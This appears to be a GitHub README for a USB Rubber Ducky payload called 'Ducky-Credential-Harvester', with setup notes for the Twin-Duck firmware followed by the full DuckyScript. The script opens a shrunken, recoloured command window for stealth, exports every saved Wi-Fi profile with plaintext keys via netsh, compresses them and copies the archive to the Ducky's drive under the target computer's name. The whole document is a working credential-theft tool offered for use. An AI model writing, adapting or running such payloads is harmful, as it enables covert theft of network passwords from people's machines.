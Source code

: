 # Ducky-Credential-Harvester
Short credential harvester for the USB-Rubber-Ducky (Hak5). Requires the Twin-Duck Firmare flashed on it.
TwinDuck: is a Firmware to be flashed on the Ducky via Arduino IDE, wich enables HID and Flashdrive regisstration on the Ducky
--> Enables credential saving on the Ducky itsself
Source: https://github.com/hak5darren/USB-Rubber-Ducky
Guide to Flash TwinDuck: https://www.youtube.com/watch?v=jemPgO_eNeg
REM: these lines arent going to be processed

DELAY 2000
GUI d
REM --> delay for 2 seconds to get the drivers on the target machine running. Closes all Tabs (GUI=WindowsKey)
DELAY 150
GUI r
DELAY 400
STRING cmd
ENTER
DELAY 500
STRING color FE & mode con:cols=18 lines=1
ENTER
REM -->(optional) stealthy...
STRING mkdir A
ENTER
STRING cd A
ENTER
REM --> Sets up the credentials Directory "A" on the Desktop - navigates into it 
STRING netsh wlan export profile key=clear 
ENTER
DELAY 200
STRING cd ..
ENTER
REM --> exports all Saved wlan profiles to "A" and navigates back (!!requiers administrative privileges!!)
STRING powershell
ENTER
STRING Compress-Archive -Path A -DestinationPath A.zip
ENTER
STRING copy A.zip D:\%computername%-wifi-passwords.zip
ENTER
GUI d
REM --> Compresses .xml files into .zip and copys the credentials to the Duckys directory with the targets name in it. Minimizes all Tabs 
REM --> Execution Time: arround 3-5 seconds. Delays commonly need to be longer the older your Target Machine is.
